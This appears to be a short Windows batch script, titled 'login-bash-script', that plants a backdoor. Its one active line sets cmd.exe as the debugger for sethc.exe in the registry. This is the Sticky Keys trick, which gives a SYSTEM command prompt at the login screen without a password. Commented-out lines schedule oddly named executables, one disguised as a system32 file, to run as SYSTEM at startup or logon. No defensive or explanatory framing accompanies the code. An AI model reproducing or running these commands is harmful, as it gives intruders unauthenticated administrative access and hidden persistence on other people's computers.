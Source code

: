 # login-bash-script

REM schtasks /create /tn "win_start" /tr c:\windows\system32\wshirda_03.exe /sc onstart /ru "system"
REM alt + shift + print_screen
REM schtasks /create /tn "don_coleone" /tr C:\Users\khanflex\Desktop\Test\khanspace.exe /sc onlogon /ru "system"
cmd.exe /c "reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v "Debugger" /t REG_SZ /d "C:\windows\system32\cmd.exe" /f"
